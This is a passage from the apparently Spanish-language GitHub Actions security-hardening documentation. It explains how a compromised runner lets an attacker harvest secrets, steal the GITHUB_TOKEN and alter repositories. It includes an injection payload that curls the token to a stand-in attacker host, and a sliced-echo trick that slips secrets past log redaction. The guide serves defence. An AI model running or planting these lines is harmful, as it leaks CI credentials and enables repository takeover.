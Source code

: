   {% raw %}
  ```
  uses: fakeaction/publish@v3
  with:
      key: ${{ secrets.PUBLISH_KEY }}
  ```
  {% endraw %}

Aunque {% data variables.product.prodname_actions %} limpia los secretos de la memoria, los cuales no se referencien en el flujo de trabajo (o que no se incluyan en una acción), un atacante determinado podría cosechar tanto el `GITHUB_TOKEN` como cualquier secreto referenciado.

### Exfiltrar datos de un ejecutor

Un atacante puede exfiltrar cualquier secreto u otros datos robados del ejecutor. Para prevenir la divulgación accidental del secreto, {% data variables.product.prodname_actions %} [redacta automáticamente los secretos que se imprimen en la bitácora](/actions/reference/encrypted-secrets#accessing-your-secrets), pero este no es un límite de seguridad verdadero, ya que los secretos se pueden enviar intencionalmente a dicha bitácora. Por ejemplo, los secretos ofuscados pueden exfiltrarse utilizando `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`. Adicionalmente, ya que el atacante podría ejecutar comandos arbitrarios, podrían utilizar las solicitudes de tipo HTTP para enviar secretos u otros datos del repositorio a un servidor externo.

### Robar el `GITHUB_TOKEN` del job

Es posible que un atacante robe el `GITHUB_TOKEN` de un job. El ejecutor de {% data variables.product.prodname_actions %} recibe automáticamente un `GITHUB_TOKEN` generado con permisos que se limitan únicamente al repositorioq ue contiene el flujo de trabajo y el token vence después de que se complete el job. Una vez que se venza, el token ya no será útil para un atacante. Para solucionar esta limitante, pueden automatizar el ataque y llevarlo acabo en fracciones de segundo llamando a un servidor que controla un atacante con el token, por ejemplo: `a"; set +e; curl http://example.lab?token=$GITHUB_TOKEN;#`.

### Modificar el contenido de un repositorio

El servidor atacante puede utilizar la API de {% data variables.product.prodname_dotcom %} para [modificar el contenido del repositorio](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token) e incluir lanzamientos, en caso de que los permisos del `GITHUB_TOKEN` [no estén restringidos](/actions/reference/authentication-in-a-workflow#modifying-the-permissions-for-the-github_token).

## Considerar acceso entre repositorios

{% data variables.product.prodname_actions %} tiene un alcance intencional para un solo repositorio por vez. El `GITHUB_TOKEN` otorga el mismo nivel de acceso que el de un usuario con acceso de escritura, ya que cualquier usuario con este tipo de acceso puede acceder al token si crea o modifica un archivo de flujo de trabajo {% ifversion fpt or ghes > 3.1 or ghae-next %}, lo cual eleva los permisos del `GITHUB_TOKEN` en caso de que sea necesario{% endif %}. Los usuarios tienen permisos específicos para cada repositorio, así que, permitir que el `GITHUB_TOKEN` de un repositorio otorgue acceso a otro de ellos impactará el modelo de permisos de {% data variables.product.prodname_dotcom %} si no se implementa con cuidado. De forma similar, se debe tener cuidado al agregar tokens de autenticación de {% data variables.product.prodname_dotcom %} a un flujo de trabajo, ya que esto también puede afectar el modelo de permisos de {% data variables.product.prodname_dotcom %} al otorgar inadvertidamente un acceso amplio a los colaboradores.
